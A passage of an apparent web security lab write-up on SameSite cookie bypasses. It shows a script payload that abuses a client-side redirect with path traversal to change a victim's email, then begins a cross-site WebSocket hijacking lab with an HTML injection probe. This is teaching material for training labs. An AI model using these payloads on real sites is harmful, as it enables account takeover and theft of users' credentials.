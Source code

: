 You can try to redirect to another path in the page and see if the session cookie is dragging well.

```
/post/comment/confirmation?postId=../my-account
```

Let's go to test in the exploit server:

```
<script>
location = 'https://0a7f006d046f159a80b703e500410045.web-security-academy.net/post/comment/confirmation?postId=../my-account';
</script>
```

Okeey, this works, is redirecting from /post/comment/confirmation to /my-account. This is possible because we are not in a third-part website, we're inside of the website but use the redirect to my-account. It's important to url encode the `?` and `&` because we're using another `?` and it is important demonstrate that is inside the other query.

```html
<script>
location = 'https://0a7f006d046f159a80b703e500410045.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3Femail=pwned@pwned.com%26submit=1';
</script>
```

# SameSite Strict bypass via sibling domain

This lab contain live chat and is vulnerable to **cross-site WebSocket hijacking (CSWSH)** and the idea is to exfiltrate the victim's chat history that contain victim credentials.

When you open the live chat tab you can try html injections...

```html
</td></tr><h1>test</h1>
```

But is doesn't care.

If we see the HTTP history in /chat request we can see `/resources/js/chat.js`. If we open we can see this header:

- `Access-Control-Allow-Origin: https://cms-0ab700de036cfca480fd268c00ba00f4.web-security-academy.net`: 

This header indicate what origins are allowed to acess to the resources of the server.

If we open this website we find another login panel.

In burpsuite we have WebSockets history tab where we can find all the message that we are exchanging.

When we reload the page we see that the message are loading, could be interesting know how the server obtain all the messages.

You can delete all the messages and reload the page.

We send 'READY' in raw, I imagine that is using our session cookie and in the title of the lab is using **SameSite=Strict**, if you open some request and change the session cookie you are going to see the value.
